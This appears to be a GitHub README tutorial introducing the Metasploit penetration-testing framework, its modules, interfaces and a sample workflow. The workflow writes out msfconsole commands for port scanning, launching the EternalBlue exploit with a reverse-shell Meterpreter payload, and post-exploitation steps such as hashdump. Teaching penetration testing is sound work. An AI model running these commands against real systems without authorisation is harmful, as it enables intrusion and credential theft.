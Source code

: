 ![Status](https://img.shields.io/badge/status-active-brightgreen)

# 🔥 Metasploit Framework – Complete Guide  

---

## 📌 1. What is Metasploit?  
Metasploit is an **open-source penetration testing framework** used for developing, testing, and executing **exploits** against remote targets.  

- Created in **2003** by **H.D. Moore**  
- Acquired by **Rapid7** in 2009  
- Written mainly in **Ruby**, with some components in C and Python  

👉 Think of Metasploit as a **Swiss Army knife** for penetration testers and red teamers.  

---

## 📌 2. Why Metasploit is Important  
- ✅ **Exploit Development** – Build and test custom exploits safely  
- ✅ **Penetration Testing** – Simulate real-world attacks  
- ✅ **Post-Exploitation** – Maintain access, escalate privileges, gather credentials  
- ✅ **Research & Learning** – Safe way to study vulnerabilities  

---

## 📌 3. Metasploit Architecture  

1. **Exploits** – Code that takes advantage of a vulnerability  
   - Example: EternalBlue (MS17-010)  

2. **Payloads** – Code executed on the target after successful exploitation  
   - **Singles** – Standalone (e.g., add a user)  
   - **Stagers** – Small loader that sets up connection  
   - **Stages** – Larger payloads delivered by stagers (e.g., Meterpreter)  

3. **Meterpreter** – Advanced payload that runs in memory  
   - File transfer  
   - Privilege escalation  
   - Keylogging  
   - Pivoting  

4. **Auxiliary Modules** – Non-exploit tools (scanning, fuzzing, DoS, etc.)  
5. **Encoders** – Evade AV/IDS  
6. **NOPS** – Execution stability fillers  

---

## 📌 4. Interfaces  

- **msfconsole** – Main CLI  
- **msfvenom** – Create payloads  
- **Armitage** – GUI (legacy)  
- **Metasploit Pro** – Paid version with reporting & automation  

---

## 📌 5. Common Workflow  

1. **Information Gathering**  
   ```bash
   use auxiliary/scanner/portscan/tcp
   set RHOSTS 192.168.1.100
   run
````

2. **Vulnerability Scanning**

   ```bash
   use auxiliary/scanner/smb/smb_version
   set RHOSTS 192.168.1.100
   run
   ```

3. **Exploitation**

   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS 192.168.1.100
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.50
   run
   ```

4. **Post-Exploitation**

   ```bash
   getuid
   sysinfo
   hashdump
   migrate
   ```

---

## 📌 6. Real-World Exploits

* **MS08-067 (Conficker Worm)** – Windows RPC exploit
* **MS17-010 (EternalBlue)** – SMBv1 exploit (WannaCry)
* **Shellshock** – Bash vulnerability
* **BlueKeep (CVE-2019-0708)** – RDP exploit

---

## 📌 7. Advantages

* Open-source and extensible
* Large exploit & payload library
* Integrates with **Nmap**, **Nessus**, **Burp Suite**
* Huge community support

---

## 📌 8. Limitations

* Can be detected by AV/EDR
* Requires frequent updates
* Not all exploits are stable

---

## 📌 9. Ethical Use ⚠️

Metasploit is extremely powerful.

* **Use only on systems you own or have written permission to test**
* Illegal use → serious legal consequences

---

## 📌 10. Learning Resources

* 📖 [Metasploit Documentation](https://docs.metasploit.com)
* 🎯 TryHackMe: Metasploit Rooms
* 🎮 HackTheBox Labs
* 📕 *Metasploit: The Penetration Tester’s Guide*

---

✨ **In short:**
Metasploit is the **industry-standard exploitation framework** that combines reconnaissance, exploitation, payload delivery, and post-exploitation into one tool.

```

